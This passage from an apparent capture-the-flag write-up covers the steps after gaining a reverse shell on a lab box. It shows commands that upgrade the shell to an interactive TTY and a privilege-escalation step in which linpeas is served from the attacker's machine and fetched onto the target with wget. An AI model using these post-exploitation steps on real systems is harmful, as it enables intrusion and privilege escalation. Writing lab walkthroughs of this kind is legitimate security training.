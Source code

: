 ![[rev.png]]


Sucessful  Just by following the steps above i got the **shell** 

#### Output

![[exploit.png]]

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
 #### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo
 fg [Enter] two times
 ```
 
 Then setting the TERM so that you are able to clean the terminal:
 ```bash
 export TERM=xterm
 ```
  
  Having the shell as a regular user  we can find the ``user.txt`` 

## Privilege Escalation
so i decide to use **linpeas**  which is s **a well-known enumeration script that searches for possible paths to escalate privileges on Linux/Unix* targets**. https://github.com/carlospolop/PEASS-ng use the latest i downloaded linpeas to my local machine and fowarded it to the box 

use this code to get your ip  tun and use that ip to foward linpeas to the box

#### code-tun0
```shell
ip addr show dev tun0
```

start a python server to where you have downloaded your linpeas you can use your own port

#### code-server
```shell
python3 -m http.server 
```

Then to the box use this code to to get linpeas.sh

#### code-linpeas
```shell
wget ip/linpeas.sh
```

after running the script you will see something like **screen** keyword in red color. This caught my attention.
